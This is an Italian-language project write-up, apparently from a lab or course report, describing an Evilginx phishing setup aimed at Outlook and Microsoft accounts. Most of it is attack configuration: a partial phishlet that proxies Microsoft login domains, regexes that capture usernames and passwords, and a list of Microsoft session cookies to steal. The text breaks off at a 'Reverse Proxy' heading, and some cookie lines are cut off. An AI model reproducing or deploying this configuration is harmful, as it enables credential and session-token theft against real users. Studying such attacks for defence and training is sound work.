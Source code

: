 Per il progetto, si è preferito sfruttare Phishlet già pronti e disponibili in rete, come quello relativo ad Outlook.

Per impostazione predefinita, i phishlet si trovano nella directory `phishlets` nella root directory del binario di Evilginx, che va specificata come parametro di avvio.

A volte, il sito web target dell'attacco di phishing potrebbe utilizzare un hostname personalizzato, unico per l'azienda obiettivo. Per mirare a un sito con un hostname unico, sarà necessario creare un phishlet personalizzato, sebbene la funzionalità del phishlet rimanga invariata.
Phishlet utilizzato:
```yaml
name: 'Outlook'
author: '@simplerhacking'
min_ver: '3.0.0'
proxy_hosts:
  - { phish_sub: "login", orig_sub: "login", domain: "microsoftonline.com", session: true, is_landing: false, auto_filter: false }
  - { phish_sub: "www", orig_sub: "www", domain: "office.com", session: true, is_landing: false, auto_filter: false }
  - { phish_sub: "acc", orig_sub: "account", domain: "microsoft.com", session: true, is_landing: false, auto_filter: false }
  ...
  ... #per un totale di 17 proxy hosts
  ...
```

Per quanto rigaurda i parametri da rubare:
```
username:
    key: ""
    search: '"username":"([^"]*)'
    type: "json"
  password:
    key: ""
    search: '"password":"([^"]*)'
    type: "json"
```
e i cookie di sessione:
```
auth_tokens:                                                                                                                                          - domain: 'login.live.com'                                                                                                                            keys: ['uaid','MSPRequ','MSCC','MSPOK','__Host-MSAAUTHP','MSPPre','MSPCID','MSPAuth','MSPProf','NAP','ANON','WLSSC','SDIDC','JSHP','JSH','MSPSo>  - domain: 'live.com'                                                                                                                                  keys: ['ai_session','wlidperf','PPLState','WLSSC','RPSSecAuth','MSPCID','MSPAuth','MSPProf','NAP','ANON','.*,regexp']                             - domain: '.login.microsoftonline.com'                                                                                                                keys: ['ESTSAUTH','ESTSAUTHPERSISTENT','SignInStateCookie','esctx','ESTSSC','ESTSAUTHLIGHT','stsservicecookie','x-ms-gateway-slice', '.*,regexp>  - domain: 'login.microsoftonline.com'
    keys: ['ESTSSC','ESTSAUTHLIGHT','stsservicecookie','x-ms-gateway-slice', '.*,regexp']
  - domain: 'outlook.live.com'
    keys: ['DefaultAnchorMailbox', 'UC', 'OutlookSession', 'X-OWA-CANARY', '.*,regexp']
```
### 2. Reverse Proxy
